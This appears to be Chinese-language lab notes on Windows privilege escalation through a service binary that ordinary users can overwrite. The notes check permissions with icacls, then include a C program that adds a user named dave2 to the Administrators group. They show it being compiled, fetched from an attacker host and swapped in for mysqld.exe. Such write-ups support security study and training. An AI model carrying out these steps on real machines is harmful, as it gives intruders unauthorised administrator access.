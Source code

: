兩個 XAMPP 服務的 Apache2.4 and mysql，路徑位置在 `C:\xampp\ ` 而非 `C:\Windows\System32`，代表是 user 自己安裝的

#### 2. enumerate service binaries 的權限
兩種工具:
- [icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)（Windows 內建工具，可在 PowerShell 和 cmd 中使用）。
![image](https://hackmd.io/_uploads/Hyz5a5r9Jl.png)

- [Get-ACL](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.2)（PowerShell Cmdlet）

使用 icacls 查看 httpd.exe 與 mysqld.exe
```
PS C:\Users\dave> icacls "C:\xampp\apache\bin\httpd.exe"
C:\xampp\apache\bin\httpd.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(RX)
                              NT AUTHORITY\Authenticated Users:(RX)

Successfully processed 1 files; Failed processing 0 files

PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```
> `httpd.exe`: dave 只有 RX，不能寫入\
> `mysqld.exe`: dave 有 Full Access (F) permission

#### 3. 建立 binary 並 Cross-Compilation
在 kali 上建立 small binary，來取代 mysqld.exe\
用 C code 創建新的 user，利用 system() 將 user 加入 Administrators group
adduser.c
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

接著 利用 mingw-64 Cross-Compilation 成 exe file
(目標機器為 64-bit)
```
┌──(chw㉿CHW)-[~]
└─$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
#### 4. 將 compiled EXE 取代 original exe
```
PS C:\Users\dave> iwr -uri http://192.168.45.188/adduser.exe -Outfile adduser.exe
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir